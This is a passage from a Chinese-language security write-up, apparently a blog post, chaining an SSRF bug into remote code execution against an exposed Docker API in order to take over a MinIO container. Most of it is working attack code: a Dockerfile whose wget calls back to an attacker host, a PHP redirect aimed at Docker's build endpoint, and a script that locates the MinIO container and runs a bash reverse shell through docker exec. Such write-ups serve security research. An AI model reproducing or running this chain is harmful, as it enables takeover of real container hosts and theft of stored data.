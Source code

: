 所以，我尝试编写了这样一个Dockerfile，看看是否能够build这个镜像，如果可以，那么我的4444端口应该能收到wget的请求：

```
FROM alpine:3.13
RUN wget -T4 http://192.168.1.142:4444/docker/build
```

然后修改前面的index.php，指向Docker集群的2375端口：

```
<?php
header('Location: http://192.168.227.131:2375/build?remote=http://192.168.1.142:4443/Dockerfile&nocache=true&t=evil:1', false, 307);
```

进行SSRF攻击，等待了一会儿，果然收到请求了：

[![image-20210124233853616.png](../../../.vuepress/public/img/db483d55-f1d5-4a3e-9d00-b53d9833d464.da172f0b4e32.png)](https://www.leavesongs.com/media/attachment/2021/01/30/db483d55-f1d5-4a3e-9d00-b53d9833d464.png)

完美，我们已经可以在目标集群容器里执行任意命令了。

此时离我们的目标，拿下MinIO，还差一点点，后面的攻击其实就比较简单了。

因为现在可以执行任意命令，我们就不会再受到SSRF漏洞的限制，可以直接反弹一个shell，或者可以直接发送任意数据包到Docker API，来访问容器。经过一顿测试，我发现MinIO虽然是运行的一个service，但实际上就只有一个容器。

所以我编写了一个自动化攻击MinIO容器的脚本，并将其放在了Dockerfile中，让其在Build的时候进行攻击，利用`docker exec`在MinIO的容器里执行反弹shell的命令。这个Dockerfile如下：

```shell
FROM alpine:3.13

RUN apk add curl bash jq

RUN set -ex && \
    { \
        echo '#!/bin/bash'; \
        echo 'set -ex'; \
        echo 'target="http://192.168.227.131:2375"'; \
        echo 'jsons=$(curl -s -XGET "${target}/containers/json" | jq -r ".[] | @base64")'; \
        echo 'for item in ${jsons[@]}; do'; \
        echo '    name=$(echo $item | base64 -d | jq -r ".Image")'; \
        echo '    if [[ "$name" == *"minio/minio"* ]]; then'; \
        echo '        id=$(echo $item | base64 -d | jq -r ".Id")'; \
        echo '        break'; \
        echo '    fi'; \
        echo 'done'; \
        echo 'execid=$(curl -s -X POST "${target}/containers/${id}/exec" -H "Content-Type: application/json" --data-binary "{\"Cmd\": [\"bash\", \"-c\", \"bash -i >& /dev/tcp/192.168.1.142/4444 0>&1\"]}" | jq -r ".Id")'; \
        echo 'curl -s -X POST "${target}/exec/${execid}/start" -H "Content-Type: application/json" --data-binary "{}"'; \
    } | bash
```

